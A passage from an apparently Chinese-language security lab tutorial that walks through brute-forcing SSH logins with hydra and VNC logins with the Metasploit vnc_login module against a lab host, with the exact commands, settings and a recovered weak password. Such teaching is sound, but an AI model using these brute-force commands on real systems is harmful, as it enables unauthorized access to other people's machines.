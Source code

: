 ```
hydra -C userpass.txt 192.168.122.102 ssh
```

其中 `-C` 指定使用的字典文件，但要求字典中的用户名和密码间使用 `:` 隔开。后面的IP地址是我们的目标靶机，ssh为攻击的服务。

## 四、利用 VNC 弱密码进行暴力破解

#### 4.1 攻击脚本

我们在这个实验中使用 vnc 登录暴力破解的脚本 `auxiliary/scanner/vnc/vnc_login`，这个脚本的文件在下面的目录中，实验后的作业有一个是需要大家根据 ssh 实验中的内容理解这个攻击脚本的内容，并能够根据这两个脚本未来可以实现自己的暴力破解脚本：

+ `/usr/share/metasploit-framework/modules/auxiliary/scanner/vnc/vnc_login.rb`


#### 4.2 启动 msfconsole

前面的实验中，我们学过如何在 Kali 中执行下面的命令，进入 msfconsole：

```
# 打开终端 MSF
sudo msfconsole
```

#### 4.3 配置攻击模块

后续的步骤跟 SSH 实验中非常类似。

选择使用攻击模块：

```
msf > use auxiliary/scanner/vnc/vnc_login
```

配置暴力破解的线程数，线程数越多执行的会越快（当然受限制于当前机器的CPU配置），但配置的线程数越多则越容易被目标主机发现：

```
msf auxiliary(vnc_login) > set THREADS 5
THREADS = > 5
```

配置目标主机 IP 地址：
```
msf auxiliary(vnc_login) > set RHOSTS 192.168.122.102
RHOSTS = > 192.168.122.102
```

执行暴力破解：
```
msf auxiliary(vnc_login) > exploit
```

#### 4.4 查看结果

很快 vnc_login 的攻击结果就出来了，因为 vnc 登录没有输入用户名只需要尝试各种常见的弱密码，结果可以看到 vnc 登录的密码为 `password`：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2313timestamp1480485354713.png/wm)

思考：为什么我们没有设置 vnc_login 的 userpass_file 字典文件也可以进行暴力破解攻击？
